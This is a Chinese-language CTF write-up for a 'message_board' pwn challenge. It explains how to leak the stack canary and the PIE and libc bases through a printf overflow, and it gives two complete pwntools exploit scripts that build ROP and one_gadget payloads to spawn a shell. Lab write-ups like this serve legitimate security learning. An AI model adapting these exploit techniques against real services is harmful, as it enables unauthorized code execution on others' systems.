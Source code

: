 ### messageboard

### 考点

- Canary绕过原理
- PIE绕过原理
- 对gdb调试器的使用

### 解题过程

- 使用`checksec`进行检查：
![checksec](/img/posts/2023-10-23-messageboard/images/checksec.png)

![file](/img/posts/2023-10-23-messageboard/images/file.png)

​		可知程序为64位，有DEP、ASLR、Canary、PIE等保护。`Canary`是一种栈溢出保护手段，会在栈中压入随机值，如果进行栈溢出攻击，会导致随机值改变，导致验证失败，从而程序不会执行。`PIE(position-independent executable, 地址无关可执行文件)`技术就是一个针对代码段.text, 数据段.*data，.bss等固定地址的一个防护技术。同ASLR一样，应用了PIE的程序会在每次加载时都变换加载基址，从而使位于程序本身的gadget也失效。

- 使用`ldd`命令查看程序的依赖库libc和ld：

![ldd](/img/posts/2023-10-23-messageboard/images/ldd.png)

​		使用`patchelf`进行修改：

```shell
patchelf --replace-needed libc.so.6 ./libc-2.31.so ./message_board
```

```shell
patchelf --set-interpreter ~/Documents/tools/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/ld-2.31.so ./message_board
```

![ldd-1](/img/posts/2023-10-23-messageboard/images/ldd-1.png)

- 构造python脚本，进行调试，查看程序vmmap以及stack的情况：

`vmmap`：后3位均为0，前几位每次调试都会发生变化

![vmmap](/img/posts/2023-10-23-messageboard/images/vmmap.png)

![vmmap-1](/img/posts/2023-10-23-messageboard/images/vmmap-1.png)

`stack`：其中有随机值`"0x7e9818f231b8c000"`和`"0xf0297d8f04ed1000"`

![stack](/img/posts/2023-10-23-messageboard/images/stack.png)

![stack-1](/img/posts/2023-10-23-messageboard/images/stack-1.png)

- 使用ida工具打开程序，逆向分析，在`sub_11C9`函数位置有`getchar`函数，只有输入回车符时才会结束输入，存在栈溢出漏洞：

![sub_11C9](/img/posts/2023-10-23-messageboard/images/sub_11C9.png)

- 由于`sub_11FF`函数中的`printf`函数`%s`参数仅在字符串结尾为`\x00`字符时才会停止输出，因此可以尝试在此处泄漏`canary`和`libc`的地址。

![sub_11FF](/img/posts/2023-10-23-messageboard/images/sub_11FF.png)

- 构造脚本，主要思路（五次栈溢出）：首先通过printf函数的输出特性泄漏`Canary`值，然后在第二次调用`sub_11C9`函数时，通过覆盖部分地址使程序本应执行到`0x1310`转而执行`0x130b`（通过覆盖最后一字节实现），如下图所示：

![partial write](/img/posts/2023-10-23-messageboard/images/partial write.png)

​		然后程序重新进入漏洞函数，通过栈溢出覆盖截断字符`\x00`使`printf`函数输出程序基址。如下图所示，通过计算偏移可以得到程序基址：

![程序基址](/img/posts/2023-10-23-messageboard/images/程序基址.png)

​		然后继续到第二个`sub_11c9`函数，根据`got`表获取到libc基址，最后根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取程序基址
payload = flat(b'c'*(0x20+8+8+8))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
mov_eax_addr = u64(p.recv(6).ljust(8, b'\x00'))
base_addr = mov_eax_addr - 0x1310

success(hex(base_addr))

# 获取libc基址
pop_rdi = base_addr + 0x1383
retn = base_addr + 0x12A8
elf = ELF('./message_board')
puts_plt = elf.plt['puts'] + base_addr
puts_got = elf.got['puts'] + base_addr

libc = ELF('./libc-2.31.so')
libc_puts_offset = libc.symbols['puts']  # 0x84420
libc_system_offset = libc.symbols['system']  # 0x52290
sub_11ff_addr = base_addr + 0x130B
payload = flat(b'd'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(puts_got), p64(puts_plt), p64(sub_11ff_addr))
p.sendlineafter(b'What do you want to say?\n', payload)
p.recvuntil(b"Thanks!\n")
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))

# # one_gadget
# one_gadget = libc_base + 0xe3b01
# payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
# gdb.attach(p, 'b *$rebase(0x11FD)')
# p.sendlineafter(b"What 's your name?\n", payload)

# system函数
bin_sh_addr = libc_base + 0x1b45bd
system_addr = libc_base + libc_system_offset
payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(retn), p64(pop_rdi), p64(bin_sh_addr), p64(system_addr))
p.sendlineafter(b"What 's your name?\n", payload)
p.sendlineafter(b'What do you want to say?\n', b'FFF')
# p.recvuntil(b"Thanks!\n")

p.interactive()
```

注：需要注意在进行代码的注入时，需要考虑栈帧对齐的问题，eg: `payload = flat(b'f'*(0x20+8), p64(canary), p64(0), p64(pop_rdi), p64(bin_sh_addr)`中`p64(0)`为赋给`rbp`寄存器的值，`p64(retn)`为将`pop rdi`进行栈对齐所需添加的占位值。

- 构造脚本，主要思路（四次栈溢出）：前两次栈溢出与前一种情况相同；

​		然后程序会再次执行漏洞函数，通过栈溢出覆盖截断字符`\x00`使得`printf`函数输出libc的基址。如下图所示，通过计算偏移可以得到libc的基址

![libc_base](/img/posts/2023-10-23-messageboard/images/libc_base.png)

​		然后继续到第二个`sub_11c9`函数，根据libc基址以及`one_gadget`工具可以得到结果shell：

`python脚本如下`:

```python
from pwn import *

p = process('./message_board')

# 获取canary
payload = flat(b'a'*(0x20+8+1))
gdb.attach(p, 'b *$rebase(0x11FD)')
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)
puts_canary_libc = p.recv(7)

canary = u64(puts_canary_libc.rjust(8, b'\x00'))
success(hex(canary))


# Parital Write， 重新跳转到漏洞函数
main_addr_offset = b'\x0B'
p.recvuntil(b'What do you want to say?\n')

payload = flat(b'b'*(0x20+8), p64(canary), p64(0), main_addr_offset)
p.sendline(payload)

# 获取libc基址
libc = ELF('./libc-2.31.so')
payload = flat(b'c'*(0x20+8+8+8+16))
p.sendlineafter(b"What 's your name?\n", payload)
p.recvuntil(payload)

mov_edi_addr = p.recv(6)
print(mov_edi_addr)
mov_edi_addr = u64(mov_edi_addr.ljust(8, b'\x00'))
print(hex(mov_edi_addr))
libc_base = mov_edi_addr - 0x24083

success(hex(libc_base))

one_gadget = libc_base + 0xe3b01

payload = flat(b'e'*(0x20+8), p64(canary), p64(0x0), p64(one_gadget))
p.sendlineafter(b'What do you want to say?\n', payload)



p.interactive()
```



### 结果

![result](/img/posts/2023-10-23-messageboard/images/result.png)

